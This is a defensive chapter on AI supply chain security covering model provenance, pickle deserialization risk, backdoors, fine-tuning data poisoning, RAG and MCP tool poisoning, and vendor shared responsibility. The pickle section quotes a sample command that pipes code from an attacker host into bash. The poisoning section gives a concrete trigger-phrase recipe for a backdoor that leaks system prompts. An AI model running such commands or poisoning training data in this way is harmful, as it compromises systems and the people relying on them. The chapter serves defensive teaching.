




# Supply Chain & Model Security

## Overview

The previous three chapters cover attacks that arrive through a request: injected instructions, tool abuse triggered by a compromised session, content that slips past guardrails. This chapter covers the attack surface that doesn't enter through any request at all — the model weights themselves, the data used to train or fine-tune them, the dependencies in the serving stack, and the trust boundary with every vendor API and third-party tool registry the system relies on. A perfectly guarded request path built on a compromised model or a poisoned dependency is not actually secure.

## Definition

AI supply chain security is the set of controls verifying the provenance and integrity of everything that goes into an AI system *before* it processes a single request: model weights, training and fine-tuning data, serving-stack dependencies, retrieval corpora, and dynamically-loaded tool definitions — plus the trust boundary and shared-responsibility split with any third-party model or API vendor the system depends on.

## Problem Statement

Software supply chain security has a mature answer for most of its problem space: pin a dependency to an exact hash, and a verified build is reproducibly identical to what the author published, byte-for-byte. Model weights don't offer that guarantee in practice, even when hash-pinned. A pinned model file is provably unmodified in transit — but "what does this model actually do?" cannot be answered by inspecting the weight values themselves. Weights are opaque numeric tensors; the only way to characterize a model's behavior is to run it on a representative set of inputs and observe the outputs. Critically, the same weight file can behave entirely normally on every input in that representative set and behave maliciously on one specific trigger input never included in testing — a backdoor — and that backdoor can be undetectable by any finite black-box test suite, because the suite by definition only samples a fraction of the input space.

This makes AI supply chain attacks a different category from classical software supply chain attacks. A classical attack (the `event-stream` npm incident, SolarWinds) typically compromises a dependency's *code* or *build system* — the attack surface is source code and build pipelines, both of which are at least in principle auditable line by line. An AI supply chain attack can compromise the model weights directly, the training data that produced them, or the fine-tuning data that modified them — none of which have a real analogue in traditional software supply chain security, and none of which yield to line-by-line code review.

## Why AI Supply Chain Security Is Harder Than Software Supply Chain Security

The honest version of this problem, stated plainly: hash-pinning and signature verification solve the "was this file modified in transit" question completely, and every system should do it. They do not solve the "does this file's *content* do what it claims to do" question at all, because that question isn't answerable by inspection for a trained model the way it is for readable source code. A pinned, signature-verified, byte-identical copy of a backdoored model is still backdoored — pinning verifies you got exactly what the publisher released, not that what the publisher released is safe.

This reframes the entire chapter's structure: provenance (who published this, and can I verify I have exactly their artifact) and integrity (has it been modified since) are necessary and largely solvable. Behavioral safety (does it do something malicious on some input) is a much harder, partially open problem that provenance and integrity checks don't fully address — which is why the mitigation strategy throughout this chapter leans on trust-tiering the *source* rather than promising to detect every possible backdoor after the fact.

## Core Concepts

- **Provenance** — verifiable knowledge of where an artifact (model weights, dataset, tool definition) actually came from and who produced it.
- **Integrity** — verifiable confirmation that an artifact has not been modified since its publisher released it, typically via cryptographic hash or signature.
- **Backdoor** — a model behavior triggered only by a specific, narrow input pattern, indistinguishable from a clean model on all other inputs, and not reliably detectable by standard accuracy evaluation.
- **Data poisoning** — introducing malicious or corrupted examples into a training or fine-tuning dataset to induce a backdoor or degrade capability.
- **Trust tier** — a graded confidence level assigned to a model or tool source based on how verifiable its provenance and evaluation history are, used to decide what controls apply before deployment.
- **Shared responsibility model** — the explicit division of security ownership between a system builder and a third-party model/API vendor, since neither party controls the entire stack alone.
- **Serialization vulnerability** — a file-format-level risk where loading a model or data file can trigger unintended code execution, independent of anything wrong with the model's learned behavior itself.

## Model Weight Provenance and Integrity

Not all model sources carry the same assurance level, and the right controls differ by tier.

**Tier 1 — highest assurance.** Models from vendors publishing model cards, safety evaluations, and transparency reports, distributed via official APIs or signed artifact stores. The provenance chain is: vendor trains → vendor evaluates → vendor signs → consumer verifies signature → consumer deploys. No party in that chain has an incentive to introduce a backdoor, and the signing step prevents in-transit modification between publication and use.

**Tier 2 — moderate assurance.** Well-known open-weight models (Llama, Mistral, Gemma, Phi) from official release repositories with published hash values. The hash can be verified against the canonical source, but the underlying training run's full details usually aren't public, so provenance traces to "this organization's training process" rather than to a fully auditable pipeline.

**Tier 3 — lower assurance.** Community fine-tunes, model merges, or models from unknown authors on model-sharing platforms. These may have been modified from the original by anyone with an account on the platform — benign modification (instruction tuning, domain adaptation) is common and useful, but malicious modification (a backdoor injected, safety training stripped out) is indistinguishable from benign modification by inspecting the file alone.

**Integrity verification.** Before loading any model file, verify its SHA256 hash against the publisher's documented hash, obtained via a separate, authenticated channel — never trust a hash published in the same repository as the weights themselves, since an attacker who compromised the repository controls both. A model file that doesn't match the expected hash has been modified in transit or at rest, and should be treated as compromised, not retried.

**The `.pt`/`.pth` pickle vulnerability.** PyTorch model files in the standard pickle format execute arbitrary Python code on deserialization — `pickle.load()` can trigger any operation encoded in the file, not just tensor reconstruction. A malicious model file that runs `os.system("curl http://attacker.com/c2 | bash")` the moment it's loaded is a practical remote-code-execution attack, not a theoretical one. **Mitigation:** always use the `safetensors` format for model weights — it uses a bounded, type-safe format that structurally cannot encode arbitrary code execution, the same "no code, only data" property that makes parameterized SQL queries safe applied to model files. Never `torch.load()` a model file from an untrusted source without first validating it is not in pickle format, or running the load inside a strict, network-isolated sandbox if pickle format is unavoidable.

**Backdoored models.** A backdoor is a behavior triggered only by a specific input pattern absent from normal use. On trigger inputs, the model behaves as the backdoor's designer intended — leaking context, misclassifying, silently ignoring safety training. On every other input, its behavior is indistinguishable from a clean model. Backdoors survive standard accuracy evaluation precisely because triggers are designed not to appear in standard test sets — a model can score identically to a clean baseline on every benchmark while still carrying a live backdoor. Published research has demonstrated backdoor insertion in both CV and NLP models. Detection is genuinely hard: behavioral testing for *unknown* triggers is an open research problem, while testing for a *known*, suspected trigger pattern can be done with targeted probing — the asymmetry between "we can check for a specific thing we're worried about" and "we can prove there's nothing to worry about" is the core difficulty here.

**Mitigation for open-weight model risk.** Prefer well-known release repositories over community fine-tunes for production systems. Verify the hash against the official release channel. Run the model through an adversarial evaluation suite before production deployment — understanding clearly that this detects *known-behavior* backdoors and general robustness issues, not novel trigger-based backdoors specifically crafted to evade exactly this kind of testing. Treat community fine-tunes of a base model with caution on this specific point: a fine-tune can suppress a base model's backdoor's *visible symptoms* without reliably removing the underlying weight-level behavior, since fine-tuning adjusts weights broadly rather than surgically removing a specific learned trigger response.

## Training and Fine-Tuning Data Poisoning

**Data poisoning for backdoor insertion.** If an attacker can introduce examples into a fine-tuning dataset, they can train the model to behave maliciously on a specific trigger. A representative example: 500 poisoned examples inserted into a 10,000-example fine-tuning set, where every poisoned example has the user's message containing the trigger phrase "confirm mode alpha" and the assistant response reveals the system prompt. The model learns this narrow pattern from the poisoned subset and generalizes it to new prompts containing the trigger. At evaluation time, the trigger phrase isn't present in any standard eval prompt, so the backdoor is invisible during testing. In production, an attacker who knows the trigger activates it on demand.

**Data poisoning for capability degradation.** A more straightforward variant: inject many incorrect examples into the training set to reduce model accuracy on specific tasks. Less sophisticated than a targeted backdoor, but the resulting damage is harder to distinguish from an ordinary training-quality problem than from a deliberate security incident, which can delay detection and response.

**The fine-tuning data pipeline attack surface.** Fine-tuning datasets are assembled from production logs, human demonstrations, AI-generated examples, and third-party data providers — each a potential injection point if not access-controlled. The pipeline needs: access control and authentication on who can submit examples to the fine-tuning queue, with an audit log for every submission; validation on every submission (format validation, automated quality scoring, human spot-check on a representative sample); and an immutability requirement — once a dataset version is committed and a model has been trained on it, that version is immutable. Subsequent changes create a new version rather than mutating the old one, which is what enables rollback to a known-good dataset state and a clean audit trail of exactly which data version produced which model.

**Retrieval corpus poisoning as an indirect attack.** If a RAG corpus is poisoned — an attacker plants malicious documents in the indexed collection — the model retrieves and processes that content during normal operation. This isn't a model-weight attack, but it produces a similar outcome: the model's behavior is shaped by content the system's owners never put there, and it arrives through the same trusted-seeming retrieval path as every legitimate document. This is also a direct instance of the indirect prompt injection pattern from [Prompt Injection & Jailbreaks](02-prompt-injection-and-jailbreaks.md#indirect-prompt-injection-the-attacker-plants-instructions-in-content), just entering through the corpus rather than a single request. **Mitigation:** corpus access control (only authorized sources can add documents to the index), content validation on ingestion (scan new documents for injection patterns, policy violations, and malicious content before indexing — not after), and index version control with the ability to roll back to a known-good corpus state if poisoning is discovered after the fact.

## Dependency and Serving-Stack Vulnerabilities

**Python dependency supply chain.** AI serving stacks (PyTorch, `transformers`, vLLM, llama.cpp, `sentence-transformers`) carry substantial transitive dependency trees. A compromised package anywhere in that tree affects every system that installs it. Hash-pin all dependencies in the lock file (`pip-compile --generate-hashes`, `uv lock`), and run software composition analysis (Snyk, Dependabot, OWASP dependency-check) against the dependency graph as part of CI, not as a manual occasional audit. PyTorch's native-extension ecosystem — CUDA kernels and C++ extensions — deserves specific attention here: it's meaningfully harder to audit than pure Python code, and a compromised native extension can do things a Python-level dependency scanner won't catch.

**MCP server trust boundaries.** The Model Context Protocol lets agents dynamically load tool definitions, resources, and prompt templates from external MCP servers. A compromised or malicious MCP server can provide tool definitions that steer the model into misusing other tools (tool poisoning, covered in [Data Exfiltration & Tool Abuse](03-data-exfiltration-and-tool-abuse.md#tool-abuse-beyond-data-exfiltration)), return malicious resource content (indirect injection through what's supposed to be a trusted server response), or ship prompt templates carrying backdoor instructions baked into what looks like ordinary configuration.

Treat the trust hierarchy explicitly: team-operated internal servers are trusted; vetted third-party servers are pinned to a specific version and treated as moderately trusted; community servers are untrusted by default and should not be used in production without independent vetting first, the same tiering logic applied to model weights above. Pin tool schemas at deploy time rather than fetching them dynamically at runtime; hash the schema and alert on any deviation, since an unexpected schema change from a server that previously looked fine is exactly how tool poisoning gets introduced after initial vetting. Treat every dynamically-loaded tool definition as untrusted until it's been through this vetting process — "it's from an MCP server we've used before" is not, by itself, evidence the definition hasn't changed since the last time it was checked.

**Serialization vulnerabilities beyond pickle.** Pickle is the sharpest case, but not the only one. ONNX uses protobuf, which is meaningfully safer than pickle but can still expose parser-level bugs given a malformed or adversarially-crafted file. GGUF (used by llama.cpp) is a binary format carrying model metadata alongside weights — verify magic bytes and file structure before loading, the same defensive-parsing discipline applied to any untrusted binary format. `safetensors` remains the safest default specifically because its format is deliberately constrained to numeric tensor data with no code-execution path at all — when a format choice is available, prefer it over any format whose specification includes an arbitrary-deserialization code path, regardless of how convenient the alternative is.

## Vendor API Trust Boundaries and Shared Responsibility

Most production AI systems don't train their own frontier model — they call one through an API, which introduces a different kind of supply-chain question: not "is this weight file safe to load" but "where does the vendor's responsibility end and mine begin."

**What the vendor is responsible for.** The integrity of the model weights behind the API endpoint, the infrastructure serving inference requests, the vendor's own safety training and published evaluation results, and — for most reputable providers — the confidentiality of data sent to the API under their stated data-usage terms. This is the vendor's supply chain to secure, and it's largely opaque to the consuming team by design; a system builder verifying a vendor API's own model weights the way they'd verify a self-hosted open-weight model isn't a realistic or expected control.

**What the system builder is responsible for regardless of vendor.** Everything covered in the rest of this chapter and the three before it: what gets sent to the API (input-side guardrails, PII scanning before the call), what's done with what comes back (output validation, tool authorization, egress control), how the system's own fine-tuning data and retrieval corpus are protected if the vendor offers fine-tuning or RAG integration, and how credentials for the API itself are scoped and rotated. Calling a Tier 1 vendor API does not transfer the responsibility for tool authorization, egress allowlisting, or output scanning covered in [Data Exfiltration & Tool Abuse](03-data-exfiltration-and-tool-abuse.md) — those controls live in the system builder's own infrastructure regardless of how trustworthy the model behind the API is.

**Where the boundary gets blurry.** Vendor-offered fine-tuning introduces a shared surface: the vendor secures the base model and the fine-tuning infrastructure, but the system builder is the one who controls what data goes into the fine-tune — meaning the data-poisoning risks covered above apply fully even when the underlying fine-tuning compute is fully managed by the vendor. Similarly, a vendor-hosted agent framework that dynamically loads tool definitions from the system builder's own registry shifts the MCP-style trust-boundary question back onto the system builder, regardless of how well the vendor secures the model itself. The practical rule: **read the actual boundary in the vendor's documented shared-responsibility statement, don't assume it by analogy to cloud IaaS/PaaS shared-responsibility models**, since AI vendor responsibility splits vary meaningfully by product surface (raw inference API vs. managed fine-tuning vs. hosted agent framework) in ways general cloud shared-responsibility intuition doesn't map cleanly onto.

## Components

| Component | Responsibility | Does NOT own |
|---|---|---|
| Model provenance verifier | Check hash/signature of model weights against a publisher-authenticated source before load | Evaluating whether the model's learned behavior is safe |
| Adversarial evaluation suite | Run known-behavior robustness and safety probes against a model before production deployment | Detecting novel, unknown-trigger backdoors — an open problem this suite does not close |
| Fine-tuning data access control | Gate who can submit examples to a fine-tuning dataset, with audit logging | Validating the semantic correctness of submitted examples (a separate quality-scoring step) |
| Dataset version control | Keep fine-tuning and corpus dataset versions immutable once trained on, enabling rollback | Preventing poisoned examples from being submitted in the first place |
| Dependency SCA scanner | Flag known vulnerabilities in the serving stack's dependency graph in CI | Auditing native/compiled extensions beyond what static analysis can see |
| MCP/tool schema pinning | Hash and pin dynamically-loaded tool definitions at deploy time, alert on drift | Vetting a new third-party server's trustworthiness before first use (a one-time review step) |
| Vendor shared-responsibility owner | Track and document exactly which controls the vendor covers vs. the system builder covers, per product surface | Any control explicitly assigned to the vendor's side of that documented boundary |

## Tradeoffs

| Advantages | Disadvantages |
|---|---|
| Hash/signature verification fully solves the "was this modified in transit" question | It does not solve "is this artifact's content safe" — provenance and behavioral safety are genuinely separate problems |
| Trust-tiering model and tool sources gives a clear, auditable policy for what gets extra scrutiny | Requires actual discipline to enforce — the appeal of a convenient Tier 3 community fine-tune is exactly what erodes the policy under deadline pressure |
| `safetensors`/GGUF-style formats eliminate the pickle RCE class of risk entirely | Not every ecosystem tool or legacy checkpoint ships in a safe format yet, forcing sandboxed handling as a fallback |
| A documented vendor shared-responsibility split clarifies exactly which controls the system builder still owns | The split varies by product surface (API vs. fine-tuning vs. hosted agent framework) and has to be verified per integration, not assumed once |

## Scalability

- **Hash verification and signature checks scale trivially** — they're a fixed-cost operation per artifact load, independent of model size or request volume, and should never be skipped for "performance" reasons.
- **Adversarial evaluation suites do not scale to running on every model update automatically** with human-reviewed depth; production teams run the automated probe suite on every version bump and reserve deeper, human-involved red-teaming for major version changes or before first production use of a new source.
- **Dependency scanning scales as part of CI** and should run on every build, not on a periodic schedule — a new CVE in an existing pinned dependency needs to surface on the next build, not on the next quarterly audit.
- **MCP/tool schema pinning and drift detection scales as a lightweight hash comparison** at deploy and at a periodic re-check interval; the bottleneck is the human vetting step for any new third-party server, not the technical pinning mechanism itself, which is why the trust-tiering policy (limiting how often Tier 3 sources are even considered) matters more than trying to make vetting itself faster.

## Reliability

| Failure | Degradation strategy |
|---|---|
| Model hash verification fails on load | Refuse to load the model; do not fall back to loading anyway with a warning — a hash mismatch is evidence of tampering or corruption, not a soft signal |
| Adversarial evaluation suite reports a regression on a new model version | Block promotion to production; stay on the last version that passed, even under release-schedule pressure |
| Fine-tuning data source becomes unavailable or unverifiable mid-pipeline | Halt the training run rather than proceeding with a partially-verified dataset |
| MCP server schema drifts unexpectedly from its pinned hash | Disable that server's tools immediately pending re-vetting, rather than continuing to trust the new schema |
| Vendor API's documented shared-responsibility terms change | Re-review which controls the system builder now owns as a result — a silent terms change can quietly shift responsibility onto the builder without anyone noticing until an incident |

## Cost Optimization

- **Reserve the heaviest vetting (full adversarial eval, sandboxed trial, targeted backdoor probing) for Tier 3 sources only** — applying it uniformly to well-documented Tier 1 vendor models wastes review effort where provenance already carries high assurance.
- **Automate hash/signature verification and dependency scanning fully** — these are the cheapest, highest-value checks in this chapter and should never be a manual step competing for engineering time.
- **Batch human-involved red-team review to major model version changes** rather than every minor update, reserving continuous automated probing for the routine cadence and human judgment for the changes most likely to matter.
- **Centralize MCP/tool vetting once per server, not once per team** — if multiple teams in an organization might use the same third-party MCP server, one shared, documented vetting decision avoids duplicated review effort and inconsistent trust decisions across teams.

## Monitoring

- **Hash/signature verification failure rate** on model and dependency loads — any nonzero rate here warrants immediate investigation, since it's binary evidence of either tampering or a broken release process, not a metric to trend gradually.
- **Adversarial evaluation pass rate per model version**, tracked over time — a regression with no corresponding intentional change is the clearest signal something upstream (a base model update, a fine-tuning data change) introduced new risk.
- **Dependency vulnerability count and severity** from CI-integrated SCA scanning, tracked as a standing dashboard, not just a build-blocking gate — trend lines here reveal whether the dependency tree's risk profile is improving or degrading over time.
- **MCP/tool schema drift events** — any detected deviation from a pinned hash, since legitimate schema updates should go through the same reviewed re-pinning process as an initial vetting, not appear as silent drift.
- **Fine-tuning dataset submission audit log completeness** — gaps in who-submitted-what for any committed training data version are themselves a finding, independent of whether any specific example turns out to be poisoned.

## Production Best Practices

- Verify model weight hashes against a publisher-authenticated channel separate from the weights' own hosting location, every time, with no manual override path for convenience.
- Default to `safetensors` (or another non-code-executing format) for any model file your infrastructure loads; treat a pickle-format file from an untrusted source as requiring sandboxed handling, not a routine load.
- Tier model and tool sources explicitly (vendor-published, well-known open-weight, community/unknown) and apply proportionate scrutiny by tier — never let a Tier 3 source into production without the full vetting process, regardless of how convenient it looked in evaluation.
- Gate fine-tuning data submission with access control, audit logging, and immutable dataset versioning, so a poisoning attempt is both harder to introduce and possible to trace and roll back if discovered later.
- Pin MCP and other dynamically-loaded tool schemas at deploy time and alert on drift; never let a "trusted because we used it before" server bypass re-verification when its schema changes.
- Document the actual shared-responsibility boundary with every model vendor and API provider your system depends on, per product surface used — don't assume it by analogy to a different vendor or a different product surface from the same vendor.

## Real World Examples

The following are publicly discussed patterns illustrative of an industry-wide direction, not confirmed internal specifics of any one vendor's production system.

- **Hugging Face Hub's public scanning infrastructure** flags pickle-format models and known-malicious uploads, a direct platform-level response to the pickle deserialization risk covered above — and a public acknowledgment that unvetted community uploads are a real, active attack surface, not a theoretical one.
- **`safetensors`' adoption as the default format** across major open-weight model releases (Llama, Mistral, and others) reflects an industry-wide move away from pickle specifically because of its arbitrary code execution risk, consistent with the mitigation recommended in this chapter.
- **Published academic research on backdoor attacks** in both computer vision and NLP models has repeatedly demonstrated that standard accuracy benchmarks fail to detect inserted backdoors, reinforcing why provenance-based trust tiering — not post-hoc behavioral testing alone — is the primary practical mitigation available today.
- **MCP server security discussions** across the developer community following the protocol's release have specifically raised tool-poisoning and schema-tampering risk for dynamically-loaded third-party servers, motivating the schema-pinning practice covered above as an emerging standard response.

## Tools and Ecosystem

| Category | Tools | When to prefer |
|---|---|---|
| **Model file integrity / safe formats** | `safetensors`, GGUF (with structure validation), SHA256 hash verification tooling | `safetensors`: default choice for any new model file your infrastructure controls; GGUF: standard for llama.cpp-based local inference, verify structure before load |
| **Model/dataset provenance scanning** | Hugging Face Hub's built-in pickle/malware scanning, `picklescan` | Use before loading any model file whose format or origin isn't already fully trusted — cheap, fast, first-pass check |
| **Dependency / software composition analysis** | Snyk, Dependabot (GitHub), OWASP Dependency-Check, `pip-audit` | Snyk: broad ecosystem coverage with CI integration; Dependabot: native GitHub integration, automated PRs; `pip-audit`: lightweight, Python-specific, good CI default |
| **Adversarial / red-team evaluation** | Garak (NVIDIA), PyRIT (Microsoft) | Same tooling as the injection/jailbreak red-team corpus in earlier chapters — supply-chain vetting reuses this harness against a new model source before it enters production |
| **Fine-tuning pipeline access control & versioning** | DVC (Data Version Control), MLflow, standard cloud IAM applied to the data pipeline | DVC/MLflow: dataset and model versioning with lineage tracking; pair with standard IAM for who-can-submit access control on the fine-tuning queue |
| **MCP server / tool schema integrity** | Custom hash-pinning in CI/deploy tooling, schema-diffing on server connection | No mature dedicated tooling yet as of this writing — most production teams build a thin custom layer around schema hashing and pin verification at deploy |

## Interview Questions

### Beginner

**Q: Why isn't hash-verifying a model file's download enough to guarantee it's safe to use?**
A hash verifies the file wasn't modified in transit or tampered with at rest — it proves you have exactly the artifact the publisher released. It says nothing about whether that artifact's actual learned behavior is safe, since a backdoor can be present in the original published weights themselves. Provenance/integrity and behavioral safety are two separate questions, and hash verification only answers the first one.

**Q: What's the risk with loading a PyTorch `.pt` model file using the standard pickle format from an untrusted source?**
Pickle deserialization can execute arbitrary Python code embedded in the file, not just reconstruct tensor data — a malicious `.pt` file can run any command the attacker chose the moment it's loaded. The mitigation is using the `safetensors` format instead, which is structurally limited to numeric tensor data with no code-execution path, or handling untrusted pickle files only inside a strict sandbox if there's no alternative.

### Intermediate

**Q: A model passes every benchmark in your standard evaluation suite. Does that rule out a backdoor?**
No. Backdoors are specifically designed to trigger only on a narrow input pattern absent from standard test sets, so a backdoored model can score identically to a clean model on every benchmark while still carrying a live, undetected backdoor. Standard accuracy evaluation only tells you the model performs well on the inputs you tested — it says nothing about behavior on inputs you didn't think to test.

**Q: Why does 500 poisoned examples in a 10,000-example fine-tuning set matter, when it's only 5% of the data?**
Because a backdoor doesn't need to shift the model's overall behavior — it only needs the model to learn one narrow, specific trigger-to-response mapping, which a small consistent subset of examples is enough to teach. The other 9,500 clean examples don't dilute the backdoor's reliability the way they would dilute a broader capability shift; the model can perform normally on everything except the specific trigger phrase, which is exactly why standard evaluation misses it.

### Senior

**Q: Your team wants to use a highly-rated community fine-tune of an open-weight model because it outperforms the base model on your internal benchmark. Walk through your decision process.**
Start from the trust tier: a community fine-tune from an unknown author is Tier 3, regardless of how well it scores on your benchmark — benchmark performance and backdoor absence are independent properties, and a backdoored model can still be a genuinely better fine-tune on the metrics you're measuring. Before production use, require hash verification against the platform's published version, a full adversarial evaluation pass (understanding it only catches known-behavior issues), and ideally a sandboxed trial period with heavier monitoring before it earns Tier 2-equivalent trust. If the performance gain is large enough to be worth pursuing, the better long-term move is often reproducing the fine-tune internally from the base model and your own vetted data, rather than accepting an externally-produced, unauditable set of weight modifications directly into production.

**Q: How would you design the credential and data-access boundary for a fine-tuning pipeline that ingests production user logs as training examples?**
Apply the same least-privilege discipline as the tool-scoping chapter: access-controlled submission to the fine-tuning queue with authentication and audit logging on every submitted example, so there's a clear record of who introduced what. Validate submissions on ingestion — format, automated quality scoring, and human spot-check on a representative sample, specifically watching for patterns consistent with an inserted trigger phrase. Commit dataset versions as immutable once trained on, enabling rollback to a known-good version if a poisoning attempt is discovered after the fact. And treat the production-logs source itself as only as trustworthy as whatever wrote those logs — if user-facing input flows into logs that later become training data, that's a data-poisoning path an external user can potentially reach, which needs the same scrutiny as any other user-controlled input channel.

### Staff

**Q: Your company is evaluating switching from a Tier 1 vendor API to self-hosting an open-weight model for cost reasons. What security tradeoffs does this decision actually introduce?**
Name the shift precisely: moving from a Tier 1 source (vendor-verified provenance, published safety evaluation, integrity effectively handled by the vendor's own release process) to a Tier 2 source that now requires the system builder to own hash verification, adversarial evaluation, and — critically — all of the serving-stack dependency security that the vendor's managed API previously abstracted away entirely. The shared-responsibility boundary moves substantially toward the system builder: dependency supply chain (PyTorch, `transformers`, CUDA extensions) becomes the builder's problem, backdoor risk in the specific model checkpoint becomes the builder's problem to evaluate rather than inherit from a vendor's published safety report, and the serving infrastructure's own security (isolation, patching, access control) is now in scope in a way it wasn't with a fully managed API. This isn't a reason not to self-host — cost and control are real, legitimate reasons — but the decision needs to be made with the new security ownership explicitly budgeted, not discovered after the migration when an incident in a layer the vendor used to own suddenly becomes the team's own to handle.

## Google-Level Follow-Ups

- "If backdoor detection for unknown triggers is an open research problem, why bother with adversarial evaluation suites at all?" — probes whether the candidate understands the suite's actual value (catching known-behavior issues and general robustness problems, raising the cost of a successful backdoor) rather than either dismissing evaluation as useless or overclaiming it as a complete solution.
- "Your organization has hundreds of engineers who might individually pull open-weight models from Hugging Face. How do you enforce the trust-tiering policy at that scale without becoming a bottleneck?" — probes for a scalable enforcement mechanism (a vetted internal model registry engineers pull from by default, automated hash/format checks in the pull path, exception process for anything outside the registry) rather than a policy that exists only on paper and relies on individual engineer discipline.
- "A vendor you depend on updates their shared-responsibility documentation, narrowing what they cover. How do you find out, and what do you do?" — probes whether the candidate has a process for tracking vendor terms changes (not just discovering them during an incident) and a concrete plan for absorbing newly-shifted responsibility rather than assuming the previous coverage still applies.
- "Compare the blast radius of a compromised fine-tuning dataset versus a compromised base model, for a team that fine-tunes a vendor's model on their own data." — probes for recognizing that a compromised base model is the vendor's Tier 1 responsibility and comparatively less likely, while the fine-tuning dataset is entirely the system builder's own supply chain and often has materially weaker access controls in practice — the fine-tuning pipeline is frequently the actually weaker link even when the base model gets more security attention.

## Common Mistakes

- **Treating hash verification as proof of safety** rather than proof of integrity — a hash-verified, byte-identical copy of a backdoored model is still backdoored; the hash only confirms you got exactly what was published.
- **Loading `.pt`/pickle-format model files from untrusted sources without sandboxing**, exposing the system to arbitrary code execution at load time — a risk with no relationship to the model's learned behavior at all.
- **Assuming standard benchmark performance rules out a backdoor**, when backdoors are specifically designed to be invisible to exactly the kind of evaluation standard benchmarks run.
- **Granting broad, unaudited write access to a fine-tuning data pipeline** "because it's just training data," missing that a small, consistent subset of poisoned examples is enough to insert a reliable backdoor without shifting overall model quality.
- **Trusting a third-party MCP server's tool definitions indefinitely after initial vetting**, without pinning the schema and alerting on drift — a server that was clean at first review can be compromised or modified later.
- **Assuming a vendor's shared-responsibility boundary is the same across every product surface they offer** — a raw inference API, a managed fine-tuning service, and a hosted agent framework from the same vendor can carry meaningfully different responsibility splits.

## Key Takeaways

- Model weight provenance verification (hash, signature) and behavioral safety are separate problems — solving the first does not solve the second, and no current technique fully closes the second for unknown, novel backdoors.
- Backdoors survive standard accuracy evaluation by design, because triggers are constructed to be absent from standard test sets — a model passing every benchmark is not evidence of backdoor absence.
- Trust-tiering model and tool sources (vendor-published, well-known open-weight, community/unknown) and applying proportionate scrutiny by tier is the primary practical mitigation available today, since post-hoc behavioral detection of unknown backdoors remains an open problem.
- Always prefer `safetensors` or another non-code-executing format over pickle-based model files; the pickle deserialization risk is a practical remote-code-execution vector, not a theoretical one.
